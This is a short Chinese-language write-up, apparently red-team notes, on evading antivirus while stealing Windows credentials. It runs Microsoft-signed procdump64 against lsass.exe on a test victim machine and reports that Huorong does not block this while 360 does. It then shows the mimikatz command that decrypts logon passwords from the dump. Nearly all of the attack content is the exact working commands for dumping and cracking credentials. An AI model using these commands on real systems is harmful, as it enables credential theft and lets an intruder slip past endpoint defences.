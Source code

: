 ### 结论
能过火绒（此时的最新版v5.0.61.1）  
不能过360安全卫士（此时的最新版v13）

### 0x00 基本原理
利用procdump是微软签名的程序，自带免杀性  
这里要注意：需要使用64位的procdump以及64位的mimikatz

### 0x01 测试火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
上传procdump64.exe到受害机后执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
提取进程lsass.exe的内存到文件lsass.dmp中，如下图  
![image](./pic/0.png)  
下载提取到的lsass.dmp到攻击机的64位mimikatz目录下，执行命令
```
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```
成功解密出密码，如下图  
![image](./pic/1.png)  

### 0x02 测试360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
会被拦截，如下图  
![image](./pic/2.png)  
